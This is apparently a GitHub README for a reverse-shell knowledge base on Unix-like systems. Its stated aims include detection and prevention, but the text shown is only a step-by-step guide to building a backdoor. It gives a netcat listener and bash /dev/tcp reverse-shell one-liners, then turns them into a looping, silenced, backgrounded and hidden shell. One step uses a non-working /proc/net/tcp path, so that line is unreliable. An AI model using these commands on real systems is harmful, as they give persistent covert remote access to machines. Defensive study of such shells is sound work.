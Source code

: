 # unix-reverse-shells
A knowledge base for reverse shells on Unix-like systems.

---

In my spare time I am fiddling with reverse shells **for Unix-like systems**.

This repository is to document my findings on:

- how they are typically concealed

- how we can detect this kind of activity on already compromised machines

- what can be done to prevent these from succeeding when an authenticated user plants one

### Intro
Creating your first reverse shell
is astonishingly simple.

1. Spawn a new shell on your machine:
      ```sh
      bash
      ```

2. Listen for a connection on your machine:
      ```sh
      nc -lp <port>
      ```

3. Connect to that port from the target machine:
      ```sh
       bash -i >& /proc/net/tcp/<your-ip>/<port> 0>&1
      ```

Voila.

After playing with this for a while you're probably asking - how do we keep it alive?

4. While loop
      ```sh
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done'
      ```

5. Supress the output
      ```sh
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done > /dev/null 2>&1'
      ```

6. Throw it in the background
      ```sh
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done > /dev/null 2>&1 &'
      ```

7. Hide the shell
      ```sh
      sh -c 'while true; do bash -i  >& /dev/tcp/<your-ip>/<port> 0>&1 | sh -i; done > /dev/null 2>&1 &' && exit > /dev/null 2>&1;
      ```
You now have a backdoor.
